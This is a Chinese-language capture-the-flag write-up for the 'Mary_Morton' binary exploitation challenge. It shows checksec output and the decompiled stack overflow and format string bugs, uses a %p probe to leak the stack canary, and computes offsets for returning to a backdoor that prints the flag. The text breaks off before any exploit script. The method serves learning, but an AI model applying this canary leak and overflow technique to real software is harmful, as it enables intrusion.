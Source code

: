 ## Mary_Morton
运行checksec：

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

发现有canary开启。

发现提示中说明1是栈溢出漏洞，2是格式化字符串漏洞，3是退出程序。
```c
if(v3 == 1)
    read(0, &buf, 0x100uLL);        //栈溢出漏洞
if(v3 == 2)   
    printf(&buf, &buf);                 //格式化字符串漏洞
```

(1)IDA发现按下2键，再输入：AAAAAAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p，

结果为：

AAAAAAAA-0x7fff6992ffe0-0x7f-0x7fd54bc555ce-0x1999999999999999-(nil)-0x4141414141414141-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0xa70-(nil)-(nil)-0x674fa3cdd0633d00-0x7fff699300b0-0x4008b8-(nil)-0x7fff699301a8-0x7fff69930198-0x100400730-0x269930190-0x674fa3cdd0633d00-0x400a50-0x7fd54bb8de0b-(nil)-0x7fff69930198

发现偏移量为6字节。(发现我们的输入是从第7个位置开始的，由于下标从0开始，此位置在计算机看来为7 - 1)

(2)IDA中查看发现按下1后，调用sub_400960()函数，存在缓冲区溢出漏洞：read(0,&buf,0x100);
buf的大小是0x90,小于第三个参数0x100

(3)查找字符串，发现"/bin/cat ./flag"，交叉引用发现后门函数地址为0x4008DA

(4)首先利用字符串漏洞，泄露出canary的值，然后在函数要返回的时候再填回去，之后利用栈溢出，让其返回到后门函数

注意：   
```c
	v2 = *MK_FP(__FS__, 40LL);
	return *MK_FP(__FS__, 40LL) ^ v2;
```
说明使用了canary。

简单介绍canary：启动该机制后，程序会函数开始执行的时候在栈中插入cookie（随机数），函数之后进行验证cookie的正确性，每次程序运行时生成的canary都不相同。x86-64架构下通过fs：0x28来获取这个数据存放在栈中。在退出栈之前，合并栈中的canary值进行检测。

根据上面说明，cookie的值为v2。

**注意**：
buf和v2相差了0x90-0x8=0x88，0x88/8=17， 17+6（偏移量）=23
因为64位的程序，每个格式化字符串都是8字节，同理32位是4字节

结构如下：
